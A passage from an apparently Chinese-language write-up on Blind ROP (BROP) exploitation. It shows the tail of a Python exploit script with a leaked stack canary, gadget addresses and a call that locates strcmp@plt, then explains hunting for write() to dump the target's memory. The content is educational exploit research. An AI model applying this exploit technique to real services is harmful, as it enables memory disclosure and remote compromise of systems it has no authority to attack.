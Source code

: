 ```python
    except:
        s.close()
        return 0

if __name__ == "__main__":
    canary_offset = 5066
    canary = "\x00\x2d\x8a\x57\xe7\x59\xcc\x69"
    buf_size = 24
    stop_gadget = 0x402580
    depth = 44
    useful_gadget = 0x430c5f
    strcmp_plt = get_strcmp_plt(canary_offset, canary, buf_size, stop_gadget, depth,useful_gadget)
```

![image-20220808150832872](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/image-20220808150832872.png)

![image-20220808150849243](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/image-20220808150849243.png)

#### 寻找write

我们现在能够控制rdi,rsi,rdx了，就可以控制write函数的传参，利用write函数dump内存。现在来寻找write函数。write函数可以将buf中的n个字节写入指定文件描述符中

找到strcmp后就可以尽情设置rdx了，这时候就可以去寻找使用3个参数的write函数，以便后续dump程序内存。write函数可以将buf中的n个字节写入指定文件描述符中，`Linux ELF`文件最开始的几个字节是 `Linux` 的模数

![image-20220808151505468](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/image-20220808151505468.png)
